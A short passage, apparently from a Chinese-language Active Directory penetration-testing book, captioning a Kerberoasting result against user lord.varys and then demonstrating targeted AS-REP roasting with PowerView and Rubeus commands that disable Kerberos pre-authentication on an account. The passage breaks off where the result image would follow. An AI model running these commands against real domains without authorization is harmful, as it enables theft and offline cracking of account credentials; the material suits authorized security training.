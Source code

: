 ![图 6.15 – 成功的针对 lord.varys 用户的 Kerberoasting 攻击](img/B18964_06_15.jpg)

图 6.15 – 成功的针对 lord.varys 用户的 Kerberoasting 攻击

针对 AS-REP 烤制攻击基于我们对 `userAccountControl` 属性的控制，因此我们可以将其更改为 **不需要 Kerberos 预认证**。我将使用 PowerView 和 Rubeus 演示此过程：

```
Set-DomainObject -Identity lord.varys -XOR @{useraccountcontrol=4194304} -Verbose
Rubeus.exe asreproast
Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
```

成功的攻击如下图所示：
